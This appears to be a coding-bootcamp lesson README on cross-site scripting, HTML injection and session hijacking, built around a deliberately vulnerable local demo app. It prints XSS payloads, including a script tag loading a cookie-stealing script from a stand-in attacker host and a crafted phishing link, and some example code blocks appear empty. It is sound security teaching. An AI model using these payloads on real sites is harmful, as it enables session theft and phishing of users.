


[](https://generalassemb.ly/education/web-development-immersive)

# Cross-Site Scripting (XSS) & Code Injection

> "Don't trust user input." -
> [OWASP](https://www.owasp.org/index.php/Category:Principle)

The architecture of the web makes the prevention of client-based attacks the
responsiblity of developers. Though user education might mitigate the frequency
of successful attacks, users will not be held liable or responsible if a
company has been negligent in protecting its users from attacks.

A common feature of web applications is content editing. If the application
supports styled and formatted content, it may store HTML directly as a string.
If that string is stored naïvely, attackers can push malicious code to any
user.

These attacks exploit a **user's trust** in the application, as opposed to
attacks like [Cross-site Request Forgery (CSRF)](https://en.wikipedia.org/wiki/Cross-site_request_forgery), which exploit a **server's trust** in the client.

[How long does it take to crack a password?](https://www.betterbuys.com/estimating-password-cracking-times/)

## Prerequisites

-   Familiarity with the Document Object Model (DOM) and DOM manipulation.
-   Working knowledge of HTML, especially forms.
-   Basic knowledge of persistence, and client/server responsibilities.
-   A recent version of `node` and `npm`.
-   `mongodb` running locally.

## Objectives

By the end of this, developers should be able to:

-   Define XSS specifically, and code injection in general.
-   Recall each category of XSS and briefly summarize it.
-   Give an example of why an attacker might use HTML injection.
-   Describe, their own words, how XSS can be used to hijack a user session.

## Preparation

1.  Fork and clone this repository.
 [FAQ](https://git.generalassemb.ly/ga-wdi-boston/meta/wiki/ForkAndClone)
1.  Create a new branch, `training`, for your work.
1.  Checkout to the `training` branch.
1.  cd into the [`api` directory](./api) and install dependencies with `npm
    install`.
1.  cd into the [`client` directory](./client) and install dependencies with
    `npm install`.

## XSS

Cross-site Scripting, or XSS, is an attack that injects client-side code into
a web application, manipulating its behavior, content, or both.

> There is no single, standardized classification of cross-site scripting
> flaws, but most experts distinguish between at least two primary flavors of
> XSS flaws: **non-persistent** and **persistent**. Some sources further divide these
> two groups into traditional (caused by server-side code flaws) and DOM-based
> (in client-side code).
>
> Source: ["Cross-site Scripting",
>   _Wikipedia_](https://en.wikipedia.org/wiki/Cross-site_scripting)

Let's explore the two major classifciations together with examples. Our cast of
characters include:

-   Alice, our user
-   Bob, our application owner
-   Mallory, our attacker

We'll first explore **reflected attacks**, which happen when client data is sent
and then received as a server response without being properly sanitized.

**Persistent attacks**, on the other hand, occur when request data is not properly
sanitized. Data received from the client is serialized to a store where it can
potentially be served to other users.

For the following demonstrations, we will use a client on
[`http://localhost:7165/`](http://localhost:7165/) to communicate with a
vulnerable server, [`http://localhost:4741/`](http://localhost:4741/). It will
be convenient to open both the web inspector's network tab and the console while
interacting with this application. Also, have the server logs readily available
for inspection.

The demonstrated vulnerabilities are possible because we are using unsafe
jQuery methods. We use `$.html()` instead of `$.text` precisely because the
former is unsafe and therefore allows us to demonstrate the vulnerability.

An unsafe method is a method that does not provide sanitization before
serializing or rendering. Whether you choose jQuery or vanilla JavaScript, you
should be aware of the need for sanitization and **never** assume a method is
safe without verifying.

Templating langauges like [Handlebars](http://handlebarsjs.com),
[mustache](http://mustache.github.io), and [underscore](http://underscorejs.org)
provide sanitization through HTML-escaping, mostly by default. 

Should you trust that without periodic verification?

### Reflected Attack

1.  Alice visits 'Floogle', a popular search engine developed by Bob. She
    signed-in last week, so she is authenticated by her session cookie.
1.  When she searches for cat memes, a GET request is sent the server at
    `/search?q=icanhaz`.
1.  The response contains HTML which displays her search term in the browser.

Try this in our client. First, ensure the "unsecure" option is toggled, then
try searching something benign, like "icanhaz". Then, try searching for something
mischievous, like `<script type='text/javascript'>alert('xss');</script>`.


This server is not **sanitizing our requests**. Take a peek at the "default" code
responding to such a request at
[`api/app/controllers/search`](./api/app/controllers/search).

How is this exploitable? 

Our demo application is a **stateless application**, and
no request URLs other than the root (`/`) will hit the client server directly. The
API server, for the most part, is only manipulatable through the client.
**However**, with client-side routing, or with a traditional server-rendered
application, the following exploit becomes possible:

```
<script src="http://my.legit.site/cookie-upload.js"></script>
```

> Hi! I'd like to give you $10,000, no personal information like bank
> account numbers or credit cards required. I've already got that set
> up, just `[click
> here](http://floogle.com/search?q=%3Cscript%20src%3D%22http%3A%2F%2Fmy.legit.site%2Fcookie-upload.js%22%3E%3C%2Fscript%3E)`
> to start the process.

Since Alice is authenticated with Bob's application, the injected
script could send Alice's session information to Mallory (the attacker).

Now, try toggling the search to "secure" in the client. Reissue both your normal and
your mischievous requests. Try combining both searches queries into a single
request. Let's look at the sanitary response code in
[`api/app/controllers/search`](./api/app/controllers/search). We're relying on
the external `sanitizer` library to sanitize, or optionally escape, our
output. 

What should you consider when adopting a third-party security solution?



<br />

### Persistent Attack

1.  Mallory visits Bob's blog and posts a comment:

    ```
    Nice post! I find interesting. Have blessed
    day!<script>alert('hacked');</script>
    ```

2.  The comment is **saved** and **served** to anyone who visits that particular blog
    post.

Any number of exploits could be attempted here. The user may be redirected to a
hosted [phishing](https://www.incapsula.com/web-application-security/phishing-attack-scam.html) attack, asked to download malicious content or executables, or
the injected script may simply send session data to the attacker.  A **phishing attack** is an attack that masquerades as a trusted entity in order to gather user information- like passwords or credit card information.

Try this on the client:

Submit the simple alert script above as part of a
comment. Observe that this comment is persisted, by reloading the page and
navigating back to the post.


Try refreshing the comments by using the refresh button below the list. This is
going to get annoying for you. To reset the data store at any time, run `mongo
api/scripts/comments/reset.js` from the project root directory.

There are two layers of validation we should implement. Have a peek at the code
in [`api/app/controllers/comments`](./api/app/controllers/comments) and
[`client/assets/scripts/comments`](./client/assets/scripts/comments).

While sanitizing on either the client or the server might prevent an attack, we
sanitize (and validate) on the client side for convenience. **Sanitizing on the
server side is not optional**. Do not trust user input.

Let's activate the secure solution and try our posts again. First, the client.



Then, the server.


**The best practice** is to sanitize and validate **both** the client and the
server.

<br />

## Code Injection

> Code injection is the exploitation of a computer bug that is caused by
> processing invalid data. Injection is used by an attacker to introduce (or
> "inject") code into a vulnerable computer program and change the course of
> execution.
>
> Source: ["Code injection",
>   _Wikipedia_](https://en.wikipedia.org/wiki/Code_injection#HTML_script_injection)

**Code injection** is a general term that covers XSS as well as shell injection
and SQL injection. We've focused so far on injecting JS into a client side
application. We can use the same techniques to inject HTML.

Here's an example of reflected HTML injection:

1.  Mallory observes an XSS vulnerablity in Bob's site.
1.  She uses the vulnerability to inject HTML that looks "legitimate", while
    tricking Alice to input sensitive information.

Go back to Bob's site and, using unsecure search, trigger a dialog.

```js
// input the following into the search box and submit


```

Note specifically that there is no `script` element in this search string. This
attack uses standard attributes of the `img` element, and the browser follows
the HTML specification. The `onerror` attribute typically is used to substitute
a more pleasing or helpful image than the browser default.

In other words, `onerror` can do nice things. `` becomes `` in the browser; but ``
becomes:


A naïve sanitizer library may might miss `img` elements or `onerror`. It's easy
to think of examples of users wanting to use `img` elements in their content
(e.g., a forum or a blog). It's harder to imagine a legitimate use of `onerror`,
so be sure that your sanitization solution catches vectors in HTML, including
attribute vectors, in addition to JS vectors.

Try turning on client-side sanitization and issuing the mischievous search
again. Do the same with server-side sanitization. Lastly, do the same with
both client- and server-side sanitization.

## Session Hijacking (Cookie Hijacking)

HTTP was originally a stateless protocol: clients had to fully describe the
resources they wanted and authentication, if required, had to be provided with
every request. There was no "on-going" communication or session information.

With the addition of cookies (session state) to HTTP by version 1.1, servers
could respond with token data unique to each user. Clients could store this
information to pass along with each request. The server may still respond to
requests without maintaining any session data (client session), but it can also
store user session data (server session), though this is expensive for
high-traffic applications.

Whether the session is shared, or stored directly on the client, the client
must still send session data with every request to take advantage of the
session. Cookies uniquely identify users by definition, making them valuable to
attackers. According to Wikipedia, there are four main kinds of session
hijacking:

> 1.  Session fixation…
> 1.  Session side jacking, where the attacker uses packet sniffing to read
>     network traffic between two parties to steal the session cookie…
> 1.  Cross-site scripting, where the attacker tricks the user's computer into
>     running code which is treated as trustworthy because it appears to belong
>     to the server, allowing the attacker to obtain a copy of the cookie or
>     perform other operations.
> 1.  Malware and unwanted programs can use browser hijacking to steal a
>     browser's cookie files… An attacker with physical access can simply
>     attempt to steal the session key by, for example, obtaining the file or
>     memory contents…
>
> Source: ["Session hijacking",
> _Wikipedia_](https://en.wikipedia.org/wiki/Session_(computer_science))

These attacks take advantage of vectors that arise from not following these
principles of confidential session state:

> 1.  Confidentiality: Nothing apart from the server should be able to
>     interpret session data.
> 1.  Data integrity: Nothing apart from the server should manipulate session
>     data (accidentally or maliciously).
> 1.  Authenticity: Nothing apart from the server should be able to initiate
>     valid sessions.
>
> Source: ["Session (computer science)",
> _Wikipedia_](https://en.wikipedia.org/wiki/Session_(computer_science))

Let's see how simple it is to fetch a user's session information with XSS.

Use the reflected XSS attack demo, entering the following search term with all
sanitization disabled.

```
<script>alert(document.cookie)</script>
```

Looks like the cookie is empty in this case. That's because the demo search
application is **stateless**. Neither the client nor the server is storing a
cookie for the session.

1.  Alice visits Bob's new site, the "Cookie Jar", to request a fortune cookie.
1.  Since the fortune has tomorrow's winning lottery numbers on it, Mallory
    sends Alice a crafted link.
1.  When Alice clicks the link, it sends Alice's cookie to Mallory.

Go to the Cookie Jar and request a cookie. The server will respond with a
data object that the client will store in the session. For the purposes of this
demonstration, the server will generate a random token to uniquely identify
subsequent requests.

Now, use XSS to "steal" the cookie. If you don't like your fortune, try getting
another cookie from the server. :laughing:


Preventing session hijacking through XSS is accomplished by preventing the **XSS
exploit**. You can see this for yourself by enabling server or client
sanitization. Other vectors are typically addressed through encryption.

Browsers have built-in quite a bit of security around cookies in the past
decade. Using same-site, HTTP-only, server sessions will go a long way to
mitigating attack. Client sessions are not so safe. Inspect the code in
[`assets/scripts/cookies`](assets/scripts/cookies) and you will find we rely
on the server to send back JSON, which we then turn into a client cookie
for this demonstration.

## Techniques for Preventing Attacks

For injection attacks:

-   Santize on the server-side, **as well as** on the client-side.
-   Redirect, or otherwise do not respond, to invalid requests.
-   Invalidate credentials (or any other valuable, stored data) when suspicious
    activity is detected.
-   Disable JavaScript with a response header.
-   Explicitly define allowed origins for incoming requests. See both [Content
    Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) (CSP) and [Cross Origin Resource Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Access_control_CORS) (CORS)

For hijacking:

-   Encrypt sensitive information that may be written to disk or stored in
    memory.
-   Encrypt traffic to prevent man-in-the-middle attacks.
-   User education may mitigate risks posed from malware and physical machine
    access.

## Additional Resources
-   [OWASP Testing Guidelines v4, Table of
    Contents](https://www.owasp.org/index.php/OWASP_Testing_Guide_v4_Table_of_Contents)
    -   [HTML Injection](https://www.owasp.org/index.php/Testing_for_HTML_Injection_(OTG-CLIENT-003))
    -   [Session Fixation](https://www.owasp.org/index.php/Testing_for_Session_Fixation_(OTG-SESS-003))
-   [XSS Prevention Cheatsheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
-   [DOMxss, interactive vulnerable website](http://www.domxss.com/domxss/)
-   [Safe vs. Unsafe jQuery Methods](https://coderwall.com/p/h5lqla/safe-vs-unsafe-jquery-methods)
-   [Session Management Cheatsheet](https://www.owasp.org/index.php/Session_Management_Cheat_Sheet)
-   [Session Hijacking](https://www.owasp.org/index.php/Session_hijacking_attack)

## [License](LICENSE)

1.  All content is licensed under a CC­BY­NC­SA 4.0 license.
1.  All software code is licensed under GNU GPLv3. For commercial use or
    alternative licensing, please contact legal@ga.co.
